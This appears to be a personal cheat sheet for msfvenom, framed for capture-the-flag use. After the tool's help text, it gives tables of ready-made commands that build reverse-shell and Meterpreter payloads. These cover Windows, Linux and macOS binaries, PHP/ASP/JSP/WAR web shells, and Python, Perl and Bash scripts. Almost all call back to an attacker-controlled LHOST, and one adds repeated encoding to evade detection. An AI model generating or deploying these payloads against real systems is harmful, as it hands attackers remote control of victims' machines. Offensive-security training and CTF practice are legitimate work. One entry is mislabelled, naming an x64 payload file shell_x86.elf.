 # msfvenom

- [Introduction](#introduction)
- [Usage](#usage)
- [Examples](#examples)

## Introduction

I use msfvenom in capture the flag events when I am trying to get access to a machine or when trying to escalate my privileges. What makes this tool so great is that I can craft a payload and output it in a wide array of formats. Some of those outputs include:

- php script
- python script
- Windows executable
- Windows service
- bash script

## Usage

```bash
$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Below are some different payload commands. I have grouped them with a heading to help explain what the payload is for.

### Windows Payloads

| Description | Command |
| --- | --- |
| Windows Reverse TCP Meterpreter | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe` |
| Windows Reverse HTTP Meterpreter | `msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=8080 -f exe > shell_http.exe` |
| Windows Reverse HTTPS Meterpreter | `msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe > shell_https.exe` |
| Windows Staged Reverse TCP | `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell_stage.exe` |
| Windows Reverse TCP PowerShell | `msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.ps1` |
| Windows Executable with Custom Encoder | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_shell.exe` |

### Linux Payloads

| Description | Command |
| --- | --- |
| Linux x86 Reverse TCP | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux x64 Reverse TCP | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux Bind TCP | `msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > bind_shell.elf` |

### Web Payloads

| Description | Command |
| --- | --- |
| PHP Reverse TCP | `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php` |
| ASP Reverse TCP | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f asp > shell.asp` |
| JSP Reverse TCP | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.jsp` |
| Python Reverse TCP | `msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.py` |
| Perl Reverse TCP | `msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=4444 -f raw > shell.pl` |
| WAR File (Tomcat deployment) | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f war > shell.war` |
| Bash Reverse TCP | `msfvenom -p cmd/unix/reverse_bash LHOST=10.10.10.10 LPORT=4444 -f raw > shell.sh` |

### OSX / macOS Payloads

| Description | Command |
| --- | --- |
| macOS Reverse TCP | `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f macho > shell.macho` |

